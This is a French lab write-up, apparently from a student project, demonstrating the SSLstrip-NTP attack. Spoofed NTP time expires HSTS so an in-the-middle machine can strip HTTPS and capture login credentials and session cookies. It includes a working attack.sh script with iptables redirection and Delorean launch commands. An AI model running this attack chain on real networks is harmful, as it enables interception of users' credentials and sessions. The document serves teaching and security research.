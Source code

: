 # Attaque SSLstrip-NTP

Cette amélioration de l'attaque SSLstrip originale a été présentée pour la première fois par Jose Selvi à la [Blackhat Europe de 2014](https://www.blackhat.com/docs/eu-14/materials/eu-14-Selvi-Bypassing-HTTP-Strict-Transport-Security-wp.pdf). Celle-ci permet de contourner la sécurité offerte par HSTS (HTTP Strict Transport Security), dans le cas où l'attaquant est capable de modifier le trafic NTP entre le client et le serveur NTP.

L'attaque SSLstrip originale n'est en effet plus possible lorsque l'on essaye de "stripper" les URL d'une page web d'un domaine qui a été protégé ultérieurement par HTTP Strict Transport Security. Le mécanisme HSTS va obliger le client à se connecter à l'URL que l'on cherche à stripper en HTTPS pendant un certain laps de temps, défini par le serveur.

Le protocole NTP (Network Time Protocol) permet de synchroniser l'horloge d'un équipement informatique avec un serveur. Il s'agit d'un protocole stateless non-sécurisé basé sur UDP. L'attaque présentée par Jose Selvi consiste à usurper les requêtes NTP pour renvoyer une date erronée au client, et ainsi faire expirer les entrées HSTS. Pour réaliser cela, l'auteur se base sur un outil Python appelé [Delorean](https://github.com/myusuf3/delorean), qui se comporte comme un serveur NTP et pour lequel on peut définir la date de réponse.

Une fois que l'horloge du client a été compromise et le HSTS du domaine expiré, nous pouvons utiliser l'attaque SSLstrip originale afin de stripper les URL des pages web, même pour les domaines censés être protégés par HSTS.

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la [topology](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/topology) des machines mise en place :


```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Toutes les configurations initiales des machines se trouvent dans le fichier __"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine. Le navigateur firefox est utilisé pour la démonstration.

Au lancement de la machine, il faut ajouter le certificat de l'autorité de certification dans firefox, grâce à l'outil certutil. De plus, un client NTP est lancé au démarrage de la machine et configuré pour effectuer ses requêtes vers opeth.

Se reporter au fichier [start.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/grave/start.sh) pour plus de détails.

## Machine "opeth" (147.210.12.1)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl grâces aux scripts présents dans le dossier [CA](https://github.com/t00sh/mastercsi-ter/blob/master/CA). D'abord on crée une autorité de certification :

```
# Crée la clef root
openssl genrsa -out root-ca.key 4096

# Certificat auto-signé
openssl req -x509 -new -nodes -key root-ca.key -sha256 -days 512 -out root-ca.pem
```

Puis on peut créer un certificat pour le serveur opeth, signé avec la clef de l'autorité de certification que l'on vient de créer :

```
# Crée la clef privée
openssl genrsa -out cert.key 4096

# Crée la requête
openssl req -new -key cert.key -out cert.csr

# Signe le certificat avec la clef de la CA
openssl x509 -req -in cert.csr -CA root-ca.pem -CAkey root-ca.key -CAreateserial -out cert.pem -days 365 -sha256
```

Le serveur héberge deux sites :

  - le domaine [www.opeth.local](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/local/index.php) que l'on accède en HTTP et présentant un formulaire de login.

  - le domaine [www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php) que l'on accède en HTTPS et protégé par HSTS.

De plus, opeth joue le rôle de serveur NTP légitime, grâce au logiciel ntpd lancé au démarrage de la VM.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier [/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/attack.sh). Cette VM est configurée pour forwarder les paquets entre opeth et grave.

Si elle reçoit une requête NTP sur la chaîne iptables PREROUTING, alors elle redirige ce paquet vers [delorean](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/delorean.py) pour l'attaque.

------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante (on aura récupéré au préalable le dépôt [qemunet](https://gitlab.inria.fr/qemunet/core)) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip-ntp
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave que tout se passe normalement et que la requête POST passe bien en HTTPS (immortal est donc incapable de voir les identifiants envoyés) :

![screen1](../medias/sslstrip-ntp/screen1.png?raw=true)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](../medias/sslstrip-ntp/screen2.png?raw=true)

Nous arrivons alors sur le domaine www.opeth.secure en HTTPS : immortal n'a pas pût voir nos échanges sur cette page sécurisée.

![screen3](../medias/sslstrip-ntp/screen3.png?raw=true)

## Étape 2 : lancement de l'attaque

Comme expliqué précédemment, pour lancer l'attaque, il faut exécuter le fichier __[/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/attack.sh)__ depuis immortal. Voici son contenu :

```
#!/bin/sh

PROXY_PORT=4242
DELOREAN_PORT=4343

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT
iptables -t nat -A PREROUTING -p udp --destination-port 123 -j REDIRECT --to-port $DELOREAN_PORT

hsts_expire=$(curl -v https://www.opeth.secure --insecure 2>&1  | grep Strict | awk -F= '{print $2}' | awk -F\; '{print $1}')
hsts_expire=$(($hsts_expire / 60 + 1))

/mnt/host/delorean.py -p $DELOREAN_PORT -n -s ${hsts_expire}m &
/mnt/host/sslstrip-ntp.py $PROXY_PORT
```

On peut constater que les flux TCP à destination du port 80 (HTTP) sont redirigées vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes. Aussi, les requêtes NTP sont redirigées vers le serveur Delorean, chargé d'expirer les entrées HSTS.

Nous pouvons maintenant lancer l'attaque depuis la machine immortal :

![screen4](../medias/sslstrip-ntp/screen4.png?raw=true)

## Étape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que le lien sensible [https://www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php) est remplacé par [http://www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php). La machine immortal est donc capable d'intercepter les échanges réalisés sur le domaine [www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php).

Dés que le client effectuera une requête NTP, celle-ci sera redirigée vers le serveur Delorean, qui répondra avec une date permettant d'expirer le HSTS. Cette protection ne sera alors plus effective pour le domaine censé être sécurisé.

Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par un lien non sécurisé http:// :

![screen5](../medias/sslstrip-ntp/screen5.png?raw=true)

Nous constatons que nous arrivons sur le domaine www.opeth.secure en HTTP : notre navigation n'est pas sécurisée !

![screen6](../medias/sslstrip-ntp/screen6.png?raw=true)

La machine immortal a été capable de capturer non seulement les identifiants du formulaire, mais également le cookie de session alors que le domaine était protégé par HSTS :

![screen7](../medias/sslstrip-ntp/screen7.png?raw=true)
